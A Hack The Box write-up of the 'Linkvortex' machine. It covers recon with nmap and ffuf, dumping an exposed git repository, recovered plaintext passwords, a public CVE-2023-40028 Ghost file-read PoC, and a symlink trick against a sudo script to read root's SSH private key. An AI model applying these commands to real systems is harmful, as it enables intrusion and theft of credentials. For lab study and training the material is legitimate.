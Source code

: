 ```yaml
---
title: "Linkvortex - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Linkvortex
![](https://kar0nx.github.io/assets/images/writeup/97f12db8fafed028448e29e30be7efac.png)
## Reconnaissance

IP: 10.10.11.47
## NMAP

```
nmap -T4 -p- -A 10.10.11.47
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 07:15 UTC
Nmap scan report for linkvortex.htb (10.10.11.47)
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
| http-robots.txt: 4 disallowed entries 
|_/ghost/ /p/ /email/ /r/
|_http-server-header: Apache
|_http-title: BitByBit Hardware
|_http-generator: Ghost 5.58
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   29.48 ms 10.10.14.1
2   29.62 ms linkvortex.htb (10.10.11.47)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.30 seconds
```

add to /etc/hosts linkvortex.htb
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911091545.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911091656.png)

in nmap scan and in /robots.txt we see 4 directories
/ghost is login panel

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911092836.png)

Tried to login with default but doesn't work, however I notice that `admin@linkvortex.htb` exist cause I got message about incorect password and my other tries got error 'There is no user with that email address. '

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911112051.png)

also found subdomain dev but nothing special here for now

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.linkvortex.htb" -u http://linkvortex.htb -fs 230
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911093241.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911093225.png)

scan new subdomain with nmap and we see that Git repository found

```
nmap -T4 -A  dev.linkvortex.htb -p80,443
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 08:41 UTC
Nmap scan report for dev.linkvortex.htb (10.10.11.47)
Host is up (0.031s latency).
rDNS record for 10.10.11.47: linkvortex.htb

PORT    STATE  SERVICE VERSION
80/tcp  open   http    Apache httpd
|_http-title: Launching Soon
|_http-server-header: Apache
| http-git: 
|   10.10.11.47:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|_      https://github.com/TryGhost/Ghost.git
443/tcp closed https
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   29.99 ms 10.10.14.1
2   30.52 ms linkvortex.htb (10.10.11.47)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.77 seconds

```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911105446.png)

## Git-dumper

```
git-dumper http://dev.linkvortex.htb/.git/ /root/Desktop/link
```

great now we have git repository dumped on our machine, I always start with git log

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911110019.png)

Can't find anything use full so I searched google for TryGhost config files.
https://docs.ghost.org/config
Reading documentation I found interesting file config.production.json

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911110617.png)

nothing just default
Then I remembered that I forgot about checking status and viola

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911111108.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911111426.png)

```
test@example.com  OctopiFociPilfer45
```

and not working, tried firstly found `admin@linkvortex.htb` and I logged it

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911112309.png)

Googling I found cve-2023-40028 
https://www.exploit-db.com/exploits/52409
Poc: https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028

```
./CVE-2023-40028 -h http://linkvortex.htb -u admin@linkvortex.htb -p 'OctopiFociPilfer45'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911130353.png)

Now let's search for config.production.json that I found information about earlier, googling I found 2 path and correct was /var/lib/ghost/config.production.json

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911130343.png)

bob fibber-talented-worth
now we can connect via ssh and grab first flag

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911130630.png)

## Privilege Escalation

Starting with sudo -l 
we can run sudo with custom script and interesting is that env_keep is set to CHECK_CONTENT

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911130914.png)

Let's analyze the code, most important is that we pass argument and if condition checking is file .png. IF contains etc root print warning. I correct move file to /var/quarantined

```
ln -s /root/.ssh/id_rsa /home/bob/.cache/b
ln -s /home/bob/.cache/b /home/bob/.cache/a.png
CHECK_CONTENT=true sudo bash /opt/ghost/clean_symlink.sh /home/bob/.cache/a.png
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911131451.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911131426.png)

## Adds 

Later when I watched IppSec I should check for Dockerfile.ghost file after git-dump

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911142946.png)

also is easier to search for changes in git with 

```
git diff --cached ghost/core/test/regressuib/api/admin/authentication.test.js
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250911143308.png)